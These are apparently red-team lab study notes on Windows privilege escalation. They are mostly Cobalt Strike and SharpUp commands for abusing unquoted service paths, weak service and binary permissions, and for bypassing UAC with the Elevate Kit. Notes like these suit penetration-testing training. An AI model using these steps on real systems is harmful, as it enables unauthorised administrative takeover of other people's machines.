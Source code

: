 # Host Privilege Escalation Notes

## Windows Services

Query services
```
sc query
Get-Service | f1
```

Things of interest
1. Binary Path
2. Startup Type
3. Service Status
4. Log on As
5. Dependants and Dependencies

## Unquoted Service Paths

Get all services and their path
```
run wmic service get name, pathname
```

Check the ACL's of those objects
```
powershell Get-Acl -Path "C:\path\to\service" | f1
```

Using SharpUp
```
execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath
```

## Abusing

If you have services that are named like Service 1.exe and not quoted we can abuse this by placing a Service.exe beacon in this file path which allows us to abuse it. Could also be the file path name to like *C:\Here is\Service 1.exe* we can drop a *C:\Here.exe* if we have permissions to abuse.
```
cd C:\Program Files\Vulnerable Services
ls
upload C:\Payloads\tcp-local_x64.svc.exe
mv tcp-local_x64.svc.exe Service.exe
ls
run sc stop VulnService1
run sc start VulnService1
connect localhost 4444
```


## Weak Service Permissions

Check for modifiable services
```
execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices
```

Checking ACL of that service with [this](https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/)
```
powershell-import C:\Tools\Get-ServiceAcl.ps1
powershell Get-ServiceAcl -Name VulnService2 | select -expand Access
```

We want ChangeConfig to be able to change the binpath and Start and Stop privs to be able to abuse easily

validating the current path and changing it 
```
run sc qc VulnService2
mkdir C:\Temp
cd C:\Temp
upload C:\Payloads\tcp-local_x64.svc.exe
run sc config VulnService2 binPath= C:\Temp\tcp-local_x64.svc.exe
run sc qc VulnService2
run sc stop VulnService2
run sc start VulnService2
connect localhost 4444
```


## Weak Service Binary Permissions

This time the binary itself is able to be overwritten, checking for it's permissions. Make sure to download to keep as backup just in case. Also turn off the service before doing this, otherwise you will get helpmessage 32
```
powershell Get-Acl -Path "C:\Program Files\Vulnerable Services\Service 3.exe" | f1
download Service 3.exe
copy "tcp-local_x64.svc.exe" "Service 3.exe"
run sc stop VulnService3
upload C:\Payload\Service 3.exe
run sc start VulnService3
connect localhost 4444
```

## UAC Bypasses

Check for UAC, *medium mandatory* means UAC in this case
```
whoami /groups
```

beacon can get around this by using the [Elevate Kit](https://github.com/cobalt-strike/ElevateKit) which you should load into your Cobalt Strike for use
```
elevate uac-schtasks tcp-local
```
